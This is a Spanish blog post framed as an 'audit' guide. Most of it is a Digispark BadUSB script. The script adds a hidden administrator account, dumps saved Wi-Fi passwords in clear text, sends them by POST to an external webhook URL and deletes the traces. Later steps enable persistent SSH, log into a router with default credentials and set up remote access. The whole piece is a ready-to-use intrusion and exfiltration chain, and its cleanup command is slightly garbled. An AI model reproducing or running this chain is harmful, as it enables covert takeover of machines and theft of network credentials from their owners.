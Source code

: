 ```yaml
---
layout: post
title: Todo lo que necesitamos para la auditoria
subtitle: Este articulo se eliminara el miercoles
cover-img: /assets/img/auditoria/icono.png
thumbnail-img: /assets/img/auditoria/icono.png
tags: [auditoria]
excerpt: "Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum."
---
```


Hecho por boyras200

<br>
<br>

## Programa del digispark

```
#include "DigiKeyboard.h"
#define KEY_DOWN 0x51 // Keyboard Down Arrow
#define KEY_ENTER 0x28 //Return/Enter Key

void setup() {
  pinMode(1, OUTPUT); //LED on Model A 
}

void loop() {
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(500);

  DigiKeyboard.sendKeyStroke(0, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("simbolo");
  DigiKeyboard.delay(1500);
  DigiKeyboard.sendKeyStroke(0x4F);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(0x51);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(10000);
  DigiKeyboard.println("net user Usuario-Auditoria D2z14IdWykPO /add");
  DigiKeyboard.println("net localgroup Administradores Usuario-Auditoria /add");
  DigiKeyboard.delay(200);
  DigiKeyboard.println("cd %temp%"); //going to temporary dir
  DigiKeyboard.delay(250);
  DigiKeyboard.println("netsh wlan export profile key=clear"); //grabbing all the saved wifi passwd and saving them in temporary dir
  DigiKeyboard.delay(250);
  DigiKeyboard.println("powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > PASS"); //Extracting all password and saving them in Wi-Fi-Pass file in temporary dir
  DigiKeyboard.delay(250);
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/d5dbbd9c-cf83-4df7-adfb-10894b22d13a -Method POST -InFile PASS"); //Submitting all passwords on hook
  DigiKeyboard.delay(250);
  DigiKeyboard.println("del Wi-* /s /f /q 6 del PASS"); //cleaning up all the mess
  DigiKeyboard.println("exit");

  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW); 
  DigiKeyboard.delay(5000);
}
```

Cuando en el script nos aparezca esto, le daremos a SI:

![](/assets/img/auditoria/cmd.png.jpg)


Despues clickaremos en el cmd:

![](/assets/img/auditoria/cmd2.jpg)


##Sacar IP

Vamos a sacar la IP privada del sistema. Para esto simplemete hacemos los siguiente:

`Windows + R` 

`cmd`

`ipconfig`

Nos deberia aparecer algo como esto:

/assets/img/auditoria/ipconfig.png


/assets/img/auditoria/ipconfig2.png


Ya tenemos la IP privada, la necesitaremos mas tarde.


## Habilitar ssh

Empezamos abriendo powershell como administrador:

/assets/img/auditoria/powershell.png


Ahora ejecutaremos los siguientes comandos:


`Get-WindowsCapability -Online | Where-Object Name -like 'OpenSSH*'`

`Add-WindowsCapability -Online -Name OpenSSH.Client~~~~0.0.1.0`

`Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0`

`Start-Service sshd`

`Set-Service -Name sshd -StartupType 'Automatic'`

`if (!(Get-NetFirewallRule -Name "OpenSSH-Server-In-TCP" -ErrorAction SilentlyContinue | Select-Object Name, Enabled)) {
    Write-Output "Firewall Rule 'OpenSSH-Server-In-TCP' does not exist, creating it..."
    New-NetFirewallRule -Name 'OpenSSH-Server-In-TCP' -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22
} else {
    Write-Output "Firewall rule 'OpenSSH-Server-In-TCP' has been created and exists."
}`


Ya hemos habilitado ssh.


##Router

Primero entramos en `https://www.cual-es-mi-ip.net/`

/assets/img/auditoria/ip.png

Ahora vamos a `http://192.168.100.1/`

Ponemos las credenciales root:admin

Deberiamos haber encontrado algo como esto:

![](/assets/img/auditoria/router.png)

Ahora ponemos esto:

![](/assets/img/auditoria/router2.png)



# Ya debería estar funcionando todo.
